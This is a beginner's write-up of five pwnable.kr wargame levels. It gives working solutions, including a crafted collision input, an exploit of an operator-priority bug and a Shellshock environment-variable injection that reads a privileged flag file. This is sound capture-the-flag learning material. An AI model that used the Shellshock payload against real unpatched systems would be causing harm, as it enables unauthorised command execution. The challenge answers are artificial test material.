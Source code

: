 # pwnable.kr
Just some of my thought process going through the Toddler's Bottle beginner levels.

# 1: [fd]

Looking at the program, I see the program is looking for an input of LETMEWIN to get the flag. However, you can't just enter it as an argument.
The clue asks you what a file descriptor is. After googling, I learned that there are three file descriptors. Standard input is accessed at integer value 0,
so I looked at the line : <br>
````c
int fd = atoi( argv[1] ) - 0x1234; <br>
````
took 0x1234, converted it to decimal, and entered in 4660 as the file argument. This allowed me to write to STDIN, and I entered LETMEWIN.
the flag was returned.


# 2: collision

Looking at the code for col.c, we see a few restrictions for our argument. The passcode length must be length 20.
The password you enter is taken into chunks of four and totalled. Therefore, we need 5 integers whose total should be equal to 0x21DD09EC. 

```c
col@ubuntu:~$ python
Python 2.7.12 (default, Jul  1 2016, 15:12:24)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x21DD09EC
568134124
>>>
```
Next, I converted 0x21DD09EC into decimal, which is: 568134124. We can see by looking at it that 568134124 is not cleanly divisible by 5.
I plugged it into a calculator and got 113626828.8, which is 113626828 and 4/5. This means that if we round off 113626828.8 to 113626828 and subtract 4, we 
have 113626824 * 4 + 113626828 = 568134124. So we have to enter those in hex. I used python:

```c
./col `python -c 'print "\xc8\xce\xc5\x06"*4 + "\xcc\xce\xc5\x06"'`
```
The flag was returned!


# 3: mistake

This one used some knowledge from the first one I did, fd. 

```c
mistake@ubuntu:~$ cat mistake.c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
```
Looking at the code we can see a program that starts up, opens the password from the password file, tells you "do not bruteforce...", waits, then asks for a password.
It takes your password and flips the last bit of every byte. If your flipped password matches the password file, cat the flag.
The hint for the problem says "operator priority", so I started looking for errors in execution. You don't have to look far, the
error occurs at the beginning with the file descriptor. 
```c
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }
```
Here we can see that the fd is being set to the outcome of open(...) < 0, instead of the intended setting of fd to the comparison of open(...) and 0.<br>
This is always going to be false, because the password file should open correctly. Therefore, fd is always going to be zero, and it will get its value from stdin. This means that later on the program will compare the flipped input to our stdin. All we need to do is find two 10-digit values that equal each other when one has the last bit of every byte flipped. 0000000000 and 1111111111 work just fine, since we flip 0000 to 0001.<br>
This returns the flag!


# 4: shellshock

This one actually took me a little while to get the formatting correct, but the basic idea is to use the shellshock exploit. The shellshock exploit allows an attacker to inject code into a bash script. Opening up the c++ file shows a small program:
```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```
All it does is tell the user to "shock_me". Googling around let me to this: http://resources.infosecinstitute.com/practical-shellshock-exploitation-part-1/, which eventually led to the command: 
```c
env x='() { :;}; /bin/cat ~/flag' ~/shellshock
```
This command adds on extra code to the shellshock file, allowing us to execute our code inside the program that has higher privileges. Running the command gives us the flag!.


# 5: flag
I started this one off by downloading the file and making it executable. Running it gave me this:
```c
david@david-VirtualBox:~/Documents/pwnable5$ ./flag
I will malloc() and strcpy the flag there. take it.
```
Cryptic. The next thing I did was open the file in vi. The file contains a ton of gibberish, so I checked the strings with
```c
strings flag > hello
```
Looking through the file we see a bunch of random text with some broken up lines. One thing I noticed is the line "UPX!" appearing once at the very top of the page, and twice at the very bottom of the page. Googling this line brought me to here: https://en.wikipedia.org/wiki/UPX. <br><br>
As it turns out, UPX is a packaging tool for executables. Let's download it and see what we can do.
```c
david@david-VirtualBox:~/Documents/pwnable5$ upx -d flag
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2013
UPX 3.91        Markus Oberhumer, Laszlo Molnar & John Reiser   Sep 30th 2013

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
    887219 <-    335288   37.79%  linux/ElfAMD   flag

Unpacked 1 file.
david@david-VirtualBox:~/Documents/pwnable5$ ls
flag  hello
```

So we still have the same flag file. Running it produced the same output message Next, I opened it up. Immediately, the file looks different. I scrolled around for a while before deciding to look for the output message. Using vim to search for malloc brought me to next to a message: <br>UPX...? sounds like a delivery service :)
Which turned out to be the flag!
